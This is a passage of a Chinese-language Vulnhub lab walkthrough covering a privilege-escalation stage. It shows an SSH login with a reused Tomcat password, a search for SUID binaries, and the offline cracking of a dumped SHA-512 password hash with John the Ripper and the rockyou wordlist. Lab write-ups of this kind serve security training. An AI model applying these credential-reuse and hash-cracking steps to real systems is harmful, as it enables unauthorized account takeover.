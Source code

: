 **尝试使用ssh登录，密码为tomcat的密码**

jaye用户登录成功

jaye没有sudo权限

~~~
find  / -perm -u=s -type f 2>/dev/null
~~~

![image-20220823205946568](vulnhub靶场.assets/image-20220823205946568.png)

![image-20220823210029343](vulnhub靶场.assets/image-20220823210029343.png)



![image-20220823210139811](vulnhub靶场.assets/image-20220823210139811.png)

~~~
echo  '$6$bQ8rY/73PoUA4lFX$i/aKxdkuh5hF8D78k50BZ4eInDWklwQgmmpakv/gsuzTodngjB340R1wXQ8qWhY2cyMwi.61HJ36qXGvFHJGY/' > randyhash
~~~

~~~
john randyhash --wordlist=/usr/share/wordlists/rockyou.txt 
~~~










